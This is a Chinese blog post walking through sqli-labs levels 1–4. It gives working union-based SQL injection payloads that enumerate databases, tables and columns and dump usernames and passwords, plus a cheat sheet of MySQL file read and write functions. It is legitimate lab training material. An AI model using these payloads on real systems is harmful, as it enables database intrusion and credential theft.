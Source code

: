 ```yaml
---
layout:     post
title:      sqli-labs(1-4)
subtitle:   sqli-labs(1-4)
date:       2020-11-28
author:     YY——阳阳
header-img: img/post/post-bg-2020-11-28.jpg
catalog: true
tags:
    - sqli-labs
    - sql注入
---
```


# 前言
此关卡的主要思想以及步骤如下：

**首先判断注入方式**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112231338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

# less-1
## 0x01
> 提示为字符型注入，构造payload 
> ```../?id=1' and 1=1 ```正确 
> ```../?id=1' and 1=2 ```错误
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128103812435.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
>确认存在注入点

## 0x02
> 然后进行确认字段数，因为不知道有几个字段，所以进行尝试。构造payload ```../?id=1' order by 1,2,3,4 --+ ```，发现在4时会报错，因此字段有3个。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128104116956.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

**PS：order by是mysql中对查询数据进行排序的方法，当排序所在列不存在时即会报错，因此根据回显可以判断目前有几列**
```bash
select * from user order by id asc;  对id字段进行排序
select * from user order by 1 desc;  对第一列进行排序
asc 升序排列 desc降序排列
```

## 0x 03
> 判断回显位置位于哪里，构造payload ```../?id=-1' union select 1,2,3--+```
> 因为判断出一共三列，因此判断1，2，3列的回显位置，此处id为-1，因为union联合查询后，不会多行显示，就需要先让前面的语句失效。![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112901270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=1为正确语句，所以不会回显后边的执行语句。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113012539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=-1为错误判断，因此会回显后边的执行语句，发现回显位置为2和3。

## 0x04
> 接下来爆库，构造payload，```../?id=-1' union select 1,version(),database()--+```
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113330872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
```php
PS：常用sql注入函数
version():mysql版本，user():用户名，database():数据库名，@@datadir:读取数据库路径，@@version_compile_os:操作系统版本
concat(str1,str2,…):没有分割符地连接字符串，显示数据（数据合并）
group_concat(str1,str2,…):连接一个组的所有字符串，并以逗号分割每一条数据，显示数据
into outfile：写文件{select ‘需要写的文件’ into outfile ‘目录下’}，select ‘123123’ into outfile ‘d://study/1.txt’;(将123123添加至d盘study中新建1.txt文件中)
group_concat(列名):会把这一列中所有的内容在一行中以,隔开输出
select load_file(读文件路径)；
length() =>计算字符串长度
hex() =>字符转换为16进制
@@basedir MYSQL获取安装路径
```
>查看所有数据库，payload```../?id=-1' union select 1,group_concat(schema_name) from information_schema.schemata,3 --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114357420.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70
)![在这里插入图片描述](https://img-blog.csdnimg.cn/2020112811442066.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

## 0x05
>查询security内的所有表名，构造payload```../?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()--+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114654322.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

## 0x06
> 查看users里的字段，构造payload```../?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users'--+```
> 我们发现了username和password，然后将其进行注入出来
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114947405.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

## 0x07
>查询所有的用户名和密码，构造payload```.../?id=-1' union select 1,group_concat(username),group_concat(password) from users --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128115706646.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

PS：GROUP_CONCAT函数返回一个字符串结果，该结果由分组中的值连接组合而成。
CONCAT（）函数用于将多个字符串连接成一个字符串。
concat_ws()  将多个字符串连接成一个字符串,可以一次性指定分隔符

# less-2
基于报错的数字型GET注入，这个由于是数字型的，所以闭合的时候不用单引号了。
检查是否存在注入，发现存在注入
```?id=1=1```正确
```?id=1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128120459894.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
整数型注入和字符型注入在于构造的id不同，整数型注入id=-1，下面构造payload

```bash
?id=-1 order by 1,2,3,4,5--+ //判断列数
?id=-1 union select 1,2,3--+ //判断回显位置
?id=-1 union select 1,user(),database()--+ //爆库
?id=-1 union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1 union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1 union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```

# less-3
基于’)的字符型注入，判断是否存在注入
```id=1') and 1=1```正确
```id=1') and 1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128123046820.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1') order by 1,2,3,4,5--+ //判断列数
?id=-1') union select 1,2,3--+ //判断回显位置
?id=-1') union select 1,user(),database()--+ //爆库
?id=-1') union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1') union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1') union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```
# less-4
基于")字符型注入，判断是否存在注入
```id=1“) and 1=1```正确
```id=1”) and 1=2```错误![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128124840306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1") order by 1,2,3,4,5--+ //判断列数
?id=-1") union select 1,2,3--+ //判断回显位置
?id=-1") union select 1,user(),database()--+ //爆库
?id=-1") union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1") union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1") union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```